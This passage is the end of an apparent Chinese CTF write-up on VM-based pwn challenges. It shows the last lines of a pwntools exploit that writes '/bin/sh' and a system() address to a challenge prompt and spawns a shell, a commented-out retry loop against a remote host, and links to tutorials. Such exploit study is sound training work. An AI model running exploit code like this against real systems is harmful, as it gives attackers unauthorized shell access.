 ```python
    sla("HOW DO YOU FEEL AT OVM?\n",'/bin/sh\x00'+p64(system))
    itr()

'''
i = 0
while 1:
    i += 1
    log.warn(str(i))
    try:
        pwn()
    except Exception:
        p.close()
        if(local == 1):
            p = process(binary)
        else:
            p = remote(ip,port)
        continue
'''

if __name__ == '__main__':
    pwn()
```

参考链接：

[VMpwn~~\_哔哩哔哩\_bilibili](https://www.bilibili.com/video/BV1mf4y1Q7Hq/)

[VMPwn入门学习 | A1ex`&#39;'`s Blog](https://a1ex.online/2020/11/20/VMPwn%E5%85%A5%E9%97%A8%E5%AD%A6%E4%B9%A0/)

[VM Pwn学习 - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/208450#h2-1)